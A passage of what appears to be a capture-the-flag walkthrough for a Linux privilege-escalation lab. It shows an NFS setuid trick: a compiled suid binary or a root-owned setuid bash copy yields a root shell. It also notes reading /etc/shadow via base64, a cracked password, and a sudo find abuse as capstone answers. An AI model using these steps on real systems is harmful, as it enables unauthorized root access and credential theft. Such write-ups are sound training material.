 Copy the file that can run bash then give setuid bits

```bash
┌──(root㉿kali)-[/mnt/tmp]
└─# cp /opt/sectools/privesc/suid.c .

┌──(root㉿kali)-[/mnt/tmp]
└─# gcc suid.c -o suid

┌──(root㉿kali)-[/mnt/tmp]
└─# chmod +s suid
```

Run the executable on target machine

```bash
karen@ip-10-10-153-128:/tmp$ ./suid
```

Or just copy `bash` itself (Useful when target does not have `gcc` installed)

```bash
$ cd /tmp
cp /bin/bash .
```

```bash
┌──(kali㉿kali)-[/mnt/tmp]
└─$ sudo chown root ./bash

┌──(kali㉿kali)-[/mnt/tmp]
└─$ sudo chmod +s ./bash
```

```bash
$ ./bash -p
bash-5.0# id
uid=1001(karen) gid=1001(karen) euid=0(root) groups=1001(karen)
```

## Capstone Challenge

###### What is the content of the flag1.txt file?

Use base64 get `shadow` and crack hash -> Get user `missy` password: `Password1`

###### What is the content of the flag2.txt file?

`sudo -l` utilize `find`